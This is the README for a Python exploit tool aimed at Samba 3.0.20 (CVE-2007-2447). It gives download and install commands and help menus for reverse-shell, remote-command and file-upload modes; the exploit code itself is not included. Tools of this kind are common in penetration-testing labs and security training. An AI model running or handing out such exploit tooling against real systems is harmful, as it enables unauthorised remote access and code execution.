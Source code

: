 # CVE-2007-2447: Samba 3.0.20 Exploit

https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2007-2447

## Installation

Clone this repository or download the `exploit.py` directly.

`git clone https://github.com/Bode-Raymond/Custom-Tools/`
`wget https://raw.githubusercontent.com/Bode-Raymond/Custom-Tools/main/Samba%203.0.20%20Exploit%20Script/exploit.py`

Install the required python modules

`pip install -r requirements.txt`

Run the script using python 3

`python3 exploit.py`

## Available Modes

- shell - Start a reverse shell on the target
- rce - Execute commands on the target
- upload - Upload a file to a specified location on the target

## Help Menus

### Default Help

```
Usage: python3 exploit.py <option> <arguments>

Options:
shell	Start a reverse shell
rce	Execute commands on the target
upload	upload file to target from webserver
```

### `Shell` Mode Help

```
python3 exploit.py shell <lhost> <lport> <rhost> <rport>

lhost	Local host IP
lport	Local host listening port
rhost	Remote host IP
rport	Remote host SMB port
```

### `RCE` Mode Help

```
python3 exploit.py rce <command> <rhost> <rport>

command	shell command to be executed, no output
rhost	Remote host IP
rport	Remote host SMB port
```

### `Upload` Mode Help

```
url		location of target file (use public ip)
target-location	Target file on the target computer
rhost		Remote host IP
rport		Remote host SMB port
```
